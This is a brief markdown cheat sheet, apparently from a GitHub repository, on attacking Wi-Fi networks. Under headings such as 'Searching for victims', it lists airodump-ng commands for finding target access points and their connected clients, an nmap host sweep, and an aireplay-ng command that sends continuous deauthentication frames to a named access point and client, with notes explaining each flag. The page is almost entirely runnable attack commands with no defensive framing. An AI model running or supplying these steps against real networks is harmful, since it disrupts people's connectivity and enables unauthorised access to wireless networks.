 ## Searching for victims with airodump-ng

```bash
sudo airodump-ng wlan0mon
```

## find any devices connected to the network

airodump-ng -d "target's BSSID" -c "target's channel number" "wireless adapter monitor mode name"

```bash
sudo airodump-ng -d 50:C7:BF:DC:4C:E8 -c 11 wlan0mon
```

## Deauthentication attack

1. who's in the network

```bash
sudo nmap -sn 192.168.178.0/24
```

2. send deauth packages

```bash
sudo aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```
- 0 means deauthentication
1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- a 00:14:6C:7E:40:80 is the MAC address of the access point
- c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then broadcast deauthentication is sent (not always work)
- ath0 is the interface name